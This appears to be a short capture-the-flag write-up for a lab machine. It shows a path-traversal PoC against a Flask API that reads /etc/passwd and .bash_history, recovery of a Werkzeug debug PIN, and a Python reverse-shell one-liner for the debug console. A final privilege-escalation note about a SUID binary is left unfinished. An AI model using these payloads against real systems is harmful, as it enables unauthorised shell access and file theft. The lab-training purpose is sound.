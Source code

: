 # Recon

## Ports

22 SSH
890 HTTP
5000 Werkzeug _VULNERABLE_

## API

`http://<IP>:5000/api/v1/resources/books`

# Exploit

In API, the param "show" is vulnerable to path transversal

## PoC

`http://<IP>:5000/api/v1/resources/books?show=../../../etc/passwd`

## Payload

To get the key for Werkzeug console fin in bash history.
`http://<IP>:5000/api/v1/resources/books?show=.bash_history`

```bash
cd /home/sid
whoami
export WERKZEUG_DEBUG_PIN=XXX-XXX-XXX
echo $WERKZEUG_DEBUG_PIN
python3 /home/sid/api.py
ls
exit
```

## Reverse in "/console"

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

# Privesc

In SID's home the executable `try-harder` has SUID bit.

## Exploit

Making the reverse we found that with the number is equal

`Study more to BOF....`
